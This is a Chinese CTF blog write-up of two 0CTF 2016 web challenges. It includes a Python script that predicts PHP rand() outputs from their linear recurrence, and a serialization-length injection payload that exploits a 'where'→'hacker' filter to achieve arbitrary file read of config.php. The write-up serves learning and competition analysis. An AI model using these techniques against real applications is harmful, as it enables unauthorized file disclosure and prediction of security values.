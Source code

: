 ```yaml
---
layout:     post
title:      "0CTF"
subtitle:   "web"
date:       2016-03-14
author:		"dogewatch"
header-img: "img/home-bg-o.jpg"
tags:
    - ctf
    - web
---
```


> "菜如狗"

## 前言

16年第一场CTF，被老外虐成渣渣，惨惨惨惨惨。。。

---

## RAND

先上题目代码：

```
<?php
include('config.php');

session_start();

if($_SESSION['time'] && time() - $_SESSION['time'] > 60) {
    session_destroy();
    die('timeout');
} else {
    $_SESSION['time'] = time();
}

echo rand();
if (isset($_GET['go'])) {
    $_SESSION['rand'] = array();
    $i = 5;
    $d = '';
    while($i--){
        $r = (string)rand();
        $_SESSION['rand'][] = $r;
        $d .= $r;
    }
    echo md5($d);
    //var_dump($_SESSION['rand']);
} else if (isset($_GET['check'])) {
    //var_dump($_GET['check']);
    echo "\n";
    if ($_GET['check'] === $_SESSION['rand']) {
        echo $flag;
    } else {
        die('die');
        session_destroy();
    }
} else {
    show_source(__FILE__);
}

```

这题真是逼了狗了，各种爆破rand种子，但是就是死活过不了md5的校验。
于是怀疑爆破得到的种子并不是真正的种子，而是恰巧rand值碰上了而已。无奈之下到处翻资料发现在linux下php的rand函数值序列有着这样的一个规律：

```
rand[i] = (rand[i-3] + rand[i-31]) % 2^31
```

瞬间涨姿势了有木有，于是写脚本爆破之：

```
import requests

while True:
    r = requests.session()
    l = []
    for i in range(50):
        response = r.get('http://127.0.0.1/test.php')
        l.append(int(response.content[:response.content.find('<')]))

    response = r.get('http://127.0.0.1/test.php?go')
    l.append(int(response.content[:-32]))

    url = 'http://127.0.0.1/test.php?'
    for i in range(5):
        end = len(l)

        randnum = (l[end - 3] + l[end - 31]) % 2 **31
        l.append(randnum)

        url += 'check[]={}&'.format(randnum)

    response = r.get(url)
    if 'die' not in response.content:
        print response.content
        break
```

得到flag：0ctf{randisawesomebutdangerous}

---

## piapiapia

这题是道审计题，苦读代码无数遍后并没有发现什么漏洞，各种过滤都很完善，上传的文件也被md5重命名，无法执行。这时队里的pei大腿出场了，
发现在profile.php里显示图片是用的这样的代码：

```
$photo = base64_encode(file_get_contents($profile['photo']));
<img src="data:image/gif;base64,<?php echo $photo; ?>" class="img-memeda " style="width:180px;margin:0px auto;">
```

这意味着我们如果能控制$profile的话就能实现任意文件读取。继续看代码：

```
$profile = unserialize($profile);
```

说明$profile是经历了序列化与反序列化操作，此时并没有抱多少希望。继续看update.php中序列化操作的代码：

```
$profile['phone'] = $_POST['phone'];
$profile['email'] = $_POST['email'];
$profile['nickname'] = $_POST['nickname'];
$profile['photo'] = 'upload/' . md5($file['name']);

$user->update_profile($username, serialize($profile));
```

可以看到$profile序列化后的内容被扔进了update_profile函数进行处理，继续跟踪进class.php查看update_profile函数，发现了这么一个地方：

```
public function filter($string) {
	$escape = array('\'', '\\\\');
	$escape = '/' . implode('|', $escape) . '/';
	$string = preg_replace($escape, '_', $string);

	$safe = array('select', 'insert', 'update', 'delete', 'where');
	$safe = '/' . implode('|', $safe) . '/i';
	return preg_replace($safe, 'hacker', $string);
}
```
咋一看这个函数，一个标准的sql注入过滤函数，过滤的反斜线和单引号，同时把一些危险的字符串例如‘select’等做了替换。
这么看没什么问题，但是如果了解序列化的机制的话，就会发现其中隐含的漏洞点。
‘select’、‘insert’、‘update’、‘delete’、‘where’这5个字符串，均会被替换为‘hacker’。前4个字符串为6个字符，而‘where’为5个字符，‘hacker’为6个字符。这意味着只有字符串中存在‘where’时会发生长度的改变。而list在被序列化成字符串时，其每一部分的长度均以例如‘s:5’的形式被固定在了字符串中，在反序列化时会按照这个值去还原数组。
举个例子，$a = array('where')序列化后的字符串为‘a:1{i:0;s:5:"where";}’，这串字符串在经过过滤函数替换操作后变成了‘a:1{i:0;s:5:"hacher";}’，这会导致在反序列化时‘hacker’的最后一个字母‘r’读不到，从而导致出错。
于是我们可以利用这点，构造一定量的‘where’字符加上序列化控制符号覆盖掉其后的字符串，使得反序列化后的值为我们所控。
同时我们发现nickname变量的过滤代码如下：

```
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
	die('Invalid nickname');
```

如果nickname为数组即可绕过过滤，结合序列化的漏洞，我们就可以控制其后的photo变量，做到任意文件读取。
payload如下：

```
nickname[0] = 'wherewherewherewherewherewherewherewherewherewherewhere";i:1;s:26:'
nickname[1] = '333";i:2;s:1:"1";}s:5:"photo";s:10:"config.php";}a:1{s:12:'
```

将其post过去后成功读取config.php里的flag：0ctf{fa717b49649fbb9c0dd0d1663469a871}

---

## 后记

两天就这么两道题，真是深深滴感觉自己菜，在从腿毛挂件进化成大腿的路上任重道远啊。
